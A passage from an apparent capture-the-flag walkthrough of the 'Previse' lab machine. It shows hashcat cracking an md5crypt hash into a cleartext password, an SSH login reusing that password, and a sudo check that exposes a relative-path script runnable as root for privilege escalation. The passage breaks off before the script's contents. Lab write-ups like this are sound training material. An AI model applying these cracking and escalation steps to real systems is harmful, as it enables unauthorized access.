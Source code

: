 ```shell
500 | md5crypt, MD5 (Unix), Cisco-IOS $1$ (MD5) | Operating System

NOTE: Auto-detect is best effort. The correct hash-mode is NOT guaranteed!
Do NOT report auto-detect issues unless you are certain of the hash type.

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

INFO: All hashes found in potfile! Use --show to display them.

Started: Thu Jul  7 20:13:55 2022
Stopped: Thu Jul  7 20:13:58 2022
[root@kali Previse ]$ hashcat hash.txt --wordlist /usr/share/wordlists/rockyou.txt  --show
Hash-mode was not specified with -m. Attempting to auto-detect hash mode.
The following mode was auto-detected as the only one matching your input hash:

500 | md5crypt, MD5 (Unix), Cisco-IOS $1$ (MD5) | Operating System

NOTE: Auto-detect is best effort. The correct hash-mode is NOT guaranteed!
Do NOT report auto-detect issues unless you are certain of the hash type.

$1$🧂llol$DQpmdvnb7EeuO6UaqRItf.:ilovecody112235!
```
As we can see we cracked the hash and obtained a password.  
Once we have the password we can try to login via ssh:  
```shell
[root@kali Previse ]$ ssh -l m4lwhere $TARGET 
m4lwhere@10.10.11.104's password: 
Welcome to Ubuntu 18.04.5 LTS (GNU/Linux 4.15.0-151-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Thu Jul  7 19:58:19 UTC 2022

  System load:  0.08              Processes:           179
  Usage of /:   50.6% of 4.85GB   Users logged in:     0
  Memory usage: 28%               IP address for eth0: 10.10.11.104
  Swap usage:   0%


0 updates can be applied immediately.


Last login: Fri Jun 18 01:09:10 2021 from 10.10.10.5
-bash: warning: setlocale: LC_ALL: cannot change locale (en_GB.UTF-8)
```
## Root
Once we log in, we can check sudo capabilities for user `m4lwhere`, when sudo prompts the password we are able to provide a valid passphrase since we have the user's password.  
```bash
m4lwhere@previse:~$ sudo -l
[sudo] password for m4lwhere: 
User m4lwhere may run the following commands on previse:
    (root) /opt/scripts/access_backup.sh
```
If we inspect the script, we can notice that the script is using relative paths and that sudo is noth defining any secure_path directive:  
```bash
m4lwhere@previse:/opt/scripts$ cat access_backup.sh 
#!/bin/bash

```